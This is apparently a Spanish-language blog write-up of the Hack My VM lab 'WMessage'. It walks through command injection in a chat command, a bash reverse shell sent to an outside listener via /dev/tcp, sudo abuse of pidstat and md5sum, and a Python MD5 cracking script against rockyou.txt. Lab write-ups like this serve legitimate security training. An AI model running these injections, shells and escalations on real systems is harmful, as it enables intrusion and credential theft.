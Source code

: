 ```yaml
---
layout: post
title: WMessage
date: 2022-12-04
categories: ["HMV", "RCE"]
thumbnail: "assets/images/WMessage.png"
---
```


# WMessage [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.107 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.107 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la web veremos un panel `login` y arriba un botón llamado `Sign Up`, por lo que vamos a registrarnos. Una vez registrados veremos una especie de chat. Un tal `Master` nos dice que con el comando `!mpstat` podemos ver el estado del servidor.

Pensé que por detrás se estaba ejecutando un comando a nivel de sistema, así que tratré de inyectar comandos. Tras varios intentos llegué al `pipe` (`|`). Si ponemos `!mpstat | id` nos devolverá el comando ejecutado.

```
Server: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bien! Podemos ejecutar comandos! Para ganar una Reverse Shell primero me puse en escucha con `NC`, en mi caso por el puerto `4444`:

- `nc -nlvp 4444`

Después de eso me dirigí a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y me copié el comando en `Bash`. Vamos a ver cómo nos queda la inyección:

```
!mpstat | bash -c 'bash -i >& /dev/tcp/192.168.1.103/4444 0>&1'
```

Bien! Ya estamos en la máquina como `www-data`!

### Subida de privilegios #1
Una vez dentro de la máquina ejecuté `sudo -l` para listar todo lo que podía hacer:

```
Matching Defaults entries for www-data on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User www-data may run the following commands on MSG:
    (messagemaster) NOPASSWD: /bin/pidstat
```

Como vemos podemos ejecutar `pidstat` como `messagemaster`. En [`GTFObins`](https://gtfobins.github.io/gtfobins/pidstat/#sudo) nos enseñan a escalar privilegios con dicha herramienta, vamos a ver cómo lo hice yo:

- `sudo -u messagemaster /bin/pidstat -e /bin/bash -i`

Bien! Ya estamos como `messagemaster`!

### Subida de privilegios #2
Ahora nuestro objetivo es obtener `root`, por lo que volvemos a ejecutar `sudo -l` para saber qué podemos hacer en la máquina:

```
Matching Defaults entries for messagemaster on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User messagemaster may run the following commands on MSG:
    (ALL) NOPASSWD: /bin/md5sum
```

Vemos que podemos ejecutar `MD5Sum` como cualquier usuario, es decir, podemos ejecutarlo como `root`. Tras mirar en varios sitios no encontré ninguna vulnerabilidad relacionada con dicho binario.

Tras buscar un rato en la máquina llegué a `/var/www`, donde se encontraba un fichero con el nombre `ROOTPASS`. Utilicé `MD5Sum` como `root` para obtener el `hash` y en mi máquina poder romperlo:

- `sudo -u root /bin/md5sum /var/www/ROOTPASS`

```
85c73111b30f9ede8504bb4a4b682f48  /var/www/ROOTPASS
```

Bien! Ya tenemos el `hash`, podemos tratar de romperlo con `John` pero no funcionará. Me creé un `script` en `Python` para que con un diccionario (`rockyou.txt`) vaya línea por línea transformándola en `MD5` y comparándola con el `hash` que tenemos. Vamos a verlo:

```
import hashlib

md5 = "85c73111b30f9ede8504bb4a4b682f48"

with open("/usr/share/wordlists/rockyou.txt", encoding="utf-8", errors="ignore") as wordlist:
	lines = wordlist.readlines()
	for passwd in lines:
		passwd = passwd.replace("\n", "")
		hash = hashlib.md5((passwd.strip() + "\n").encode()).hexdigest()
		if str(hash) == md5:
			print(passwd)
```

Tras iniciarlo y esperar unos segundos vemos que sale en nuestra pantalla la contraseña de `root` (`root:Message5687`)!

Bien! Ya estamos en la máquina como `root`! Qué fácil!
